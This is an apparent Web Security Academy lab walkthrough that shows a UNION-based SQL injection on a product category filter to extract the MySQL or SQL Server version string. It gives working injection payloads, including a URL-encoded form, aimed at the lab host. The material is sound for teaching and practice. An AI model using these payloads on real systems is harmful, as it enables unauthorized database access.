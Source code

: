 Lab Title: SQL Injection Attack – Querying the Database Type and Version on MySQL and Microsoft

Overview:
This lab demonstrates how to exploit a SQL injection vulnerability in the product category filter of a web application. The underlying database is either MySQL or Microsoft SQL Server. The objective is to use a UNION-based SQL injection to retrieve and display the database version string.

Objective:
Use a UNION-based SQL injection attack to extract the database version information and display it on the web page.

Tools Required:
- Web browser
- Burp Suite (or any proxy tool to intercept HTTP requests)

Step-by-Step Instructions:

1. Intercept the HTTP Request:
   - Use Burp Suite to capture the request when selecting a product category.
   - Example request:
     GET /filter?category=Accessories HTTP/1.1
     Host: <lab-id>.web-security-academy.net

2. Identify the Number of Columns and Text-Compatible Fields:
   - To construct a valid UNION SELECT, determine how many columns are returned and which of them accept string data.
   - Use the following payload to test:
     `' UNION SELECT 'abc', 'def'#`
   - If both `abc` and `def` appear in the response, it confirms there are 2 columns and both accept text.

3. Retrieve the Database Version:
   - Use the following payload to extract the version:
     `' UNION SELECT @@version, NULL#`
   - `@@version` returns the database version string in both MySQL and Microsoft SQL Server.
   - The second column is filled with `NULL` to match the column count.

4. URL-Encoded Version of the Payload:
   - If using the browser directly, encode the payload as:
     `%27%20UNION%20SELECT%20@@version,%20NULL%23`
   - Example final URL:
     https://<lab-id>.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20@@version,%20NULL%23

5. Verify the Output:
   - If successful, the page will show a string such as:
     - MySQL: `8.0.31 MySQL Community Server`
     - SQL Server: `Microsoft SQL Server 2019 (RTM-CU18)`

Conclusion:
This lab illustrates how a UNION-based SQL injection vulnerability can be exploited to expose sensitive database metadata such as version information. It underlines the importance of input sanitization and the use of parameterized queries to protect against such attacks.
